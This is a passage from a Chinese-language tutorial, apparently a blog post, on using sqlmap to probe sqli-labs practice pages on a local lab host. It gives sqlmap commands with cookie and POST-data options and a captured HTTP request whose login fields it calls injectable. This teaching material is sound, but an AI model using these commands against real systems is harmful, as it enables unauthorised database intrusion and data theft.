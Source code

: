 ![](https://img-blog.csdnimg.cn/2018120120455877.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



这次探测的所有数据都被保存在了 **/root/.sqlmap/output/192.168.10.1/** 目录下 



![](https://img-blog.csdnimg.cn/20181202095008797.png)



**对于需要登录的网站**，我们需要指定其cookie  。我们可以用账号密码登录，然后用抓包工具抓取其cookie填入



```
sqlmap -u  "http://192.168.10.1/sqli/Less-1/?id=1"   --cookie="抓取的cookie"  #探测该url是否存在漏洞
```




**对于是post提交数据的URL**，我们需要指定其data参数



```
sqlmap -u "http://192.168.10.1/sqli/Less-11/?id=1" --data="uname=admin&passwd=admin&submit=Submit"  #抓取其post提交的数据填入
```




![](https://img-blog.csdnimg.cn/20181202110436453.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



**我们也可以通过抓取 http 数据包保存为文件**，然后指定该文件即可。这样，我们就可以不用指定其他参数，这对于需要登录的网站或者post提交数据的网站很方便。



我们抓取了一个post提交数据的数据包保存为post.txt，如下，uname参数和passwd参数存在SQL注入漏洞



```
POST /sqli/Less-11/ HTTP/1.1      
Host: 192.168.10.1      
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8      
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3      
Content-Type: application/x-www-form-urlencoded      
Content-Length: 38      
Referer: http://192.168.10.1/sqli/Less-11/      
Connection: close      1
Upgrade-Insecure-Requests: 1       1
uname=admin&passwd=admin&submit=Submit
```




然后我们可以指定这个数据包进行探测


